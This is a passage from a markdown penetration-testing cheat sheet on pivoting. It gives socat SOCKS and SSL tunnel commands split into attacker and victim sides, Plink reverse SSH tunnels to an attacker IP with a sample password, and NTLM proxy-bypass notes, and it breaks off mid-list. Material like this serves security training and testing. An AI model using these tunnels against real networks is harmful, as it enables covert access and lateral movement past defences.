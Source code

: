 ```bash
bash
CopyEdit
socat TCP-LISTEN:<local_port>,fork SOCKS4A:127.0.0.1:<target_host>:<target_port>,socksport=<proxy_port>

```

- **SSL Socat Tunnel:**

```bash
bash
CopyEdit
attacker> socat OPENSSL-LISTEN:443,cert=server.pem,cafile=client.crt,reuseaddr,fork,verify=1 TCP:127.0.0.1:3333
victim> socat TCP-LISTEN:2222 OPENSSL,verify=1,cert=client.pem,cafile=server.crt

```

---

## **Plink (Windows)**

Command-line SSH client, great for reverse tunnels.

```bash
bash
CopyEdit
plink.exe -l <username> -pw <password> -R <local_port>:<target_ip>:<target_port> <attacker_ip>

```

Example:

```bash
bash
CopyEdit
plink.exe -l root -pw password -R 9090:127.0.0.1:9090 10.11.0.41

```

---

## **NTLM Proxy Bypass**

- Using **Rpivot**
- Using **OpenVPN** with NTLM proxy:

```bash
bash
CopyEdit
http-proxy <proxy_ip> 8080 <credentials_file> ntlm

```

- Using **Cntlm** proxy tool:
